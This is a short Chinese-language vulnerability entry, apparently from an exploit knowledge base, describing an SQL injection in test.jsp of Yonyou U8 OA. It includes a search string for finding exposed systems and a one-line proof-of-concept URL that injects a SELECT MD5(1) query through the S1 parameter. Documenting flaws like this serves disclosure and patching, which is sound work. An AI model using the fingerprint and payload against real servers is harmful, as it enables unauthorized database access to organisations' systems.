 # 用友 U8 OA test.jsp SQL注入漏洞

## 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

## 漏洞影响

<a-checkbox checked>用友 U8 OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"用友U8-OA"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/yongyou-11.png)

验证POC

```plain
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```



![img](../../../.vuepress/public/img/yongyou-12.png)